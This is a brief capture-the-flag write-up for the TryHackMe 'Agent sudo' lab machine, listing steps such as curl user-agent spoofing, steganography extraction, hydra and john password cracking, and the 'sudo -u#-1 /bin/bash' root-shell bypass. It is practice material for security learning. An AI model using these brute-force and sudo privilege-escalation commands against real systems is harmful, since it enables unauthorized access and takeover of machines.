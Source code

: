 # Agent sudo 🧭
Names | Details
--------|-----
Source | tryhackme 
Level     | medium
Os | Linux

**Notes :**
#stegnography
#passwordCracking



## Gaining Access 😉

- user agent changing using curl
- binwalk extraction
- hydra bruteforce



## Maintaining Access 🥷
- bash can be run without password
	- sudo -u#-1 /bin/bash 
- sudo -l


## Important commands 🔥
- `curl -A "R" -L [http://10.10.23.158/](http://10.10.23.158/)`
- `curl "http://10.10.23.158" -H "User-Agent: R" -L`
- binwalk -e
- echo QXJlYTUx | base64 -d
- scp username@hostname:/path/to/remote/file /path/to/local/file
- `steghide extract -sf cute-alien.jpg`
- binwalk
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- password cracking using john
- zip2john => zip bruteforce
- ssh file download using scp
- extract from jpeg using steghide and binwalk


--------------------------------
**By Nibras Muhammed** 🤓🖥️






